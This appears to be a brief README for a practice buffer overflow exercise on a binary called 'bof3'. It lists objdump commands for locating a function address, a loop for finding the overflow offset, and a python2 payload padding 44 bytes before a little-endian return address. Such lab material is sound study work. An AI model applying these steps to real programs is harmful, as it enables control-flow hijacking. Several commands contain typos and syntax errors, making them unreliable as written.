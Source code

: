 # Buffer overflow : Return to address change
# TARGET FILE : bof3

***TASK1***
What does?<br>
:it is check function address <br>

1.objdump symbol check! <br>
Method 1 : objdump -d -M intel bof3 | grep -A20 main.: <br>
Method 2 : objdump -t bof3 |grep main <br>

***TASK2***<br>
Q.) waht does? <br>
A.) Find Offset use buffer overflow <br>
How to) <br>
:for i in {0..50}; echo $i; python -c "print 'A'$i + 'function address' "| ./bof3; done <br>

***TASK3***<br>
Q.) Payloads? <br>
A.) python2 -c "print 'a'*offset + 'function address (little endian)'" | ./target_file <br>
How to) <br>
:python2 -c "print  'a'*44 +'{function address (lttile endian) }'" | ./bof3 <br>





